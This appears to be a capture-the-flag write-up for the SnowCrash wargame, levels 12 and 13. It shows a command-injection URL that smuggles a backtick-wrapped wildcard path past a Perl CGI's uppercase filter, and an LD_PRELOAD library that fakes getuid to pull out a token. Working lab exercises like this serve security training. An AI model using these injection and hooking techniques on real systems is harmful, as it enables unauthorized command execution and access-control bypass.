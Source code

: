 In level12, we found a perl script used on the 127.0.0.1:5959 address.

As we see in the t function, the perl program use regex expression to format the x param send to the server.

Change a-z to A-Z
```perl
  $xx =~ tr/a-z/A-Z/;
```

Remplace space by nothing
```perl
  $xx =~ s/\s.*//;
```

```bash
level12@SnowCrash:~$ echo "getflag > /tmp/MYFLAG" > /tmp/FLAG
```

We have to go on the following URL

http://192.168.56.101:4646/?x=`/*/FLAG`

```bash
level12@SnowCrash:~$ cat /tmp/MYFLAG
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
## Level 13


# First method
In this level, we have two different ways to get the flag:

The program will check the UID of the user, and if it is the same as the one in the flag, it will print the flag.
The first way is to replace the getuid function called in the program with your own that will return 4242

```c
#include <sys/types.h>

uid_t getuid(void) {
	return 4242;
}
```

```bash
level13@SnowCrash:~$ cd /tmp
level13@SnowCrash:/tmp$ gcc /tmp/getuid.c -shared -o getuid.so
```

```bash
level13@SnowCrash:/tmp$ export LD_PRELOAD=/tmp/getuid.so
```

```bash
level13@SnowCrash:~$ cd ~
level13@SnowCrash:~$ ltrace ./level13
__libc_start_main(0x804858c, 1, 0xbffff7d4, 0x80485f0, 0x8048660 <unfinished ...>
getuid()                                         = 4242
strdup("boe]!ai0FB@.:|L6l@A?>qJ}I")              = 0x0804b008
printf("your token is %s\n", "2A31L79asukciNyi8uppkEuSx"your token is 2A31L79asukciNyi8uppkEuSx
) = 40
+++ exited (status 40) +++
```
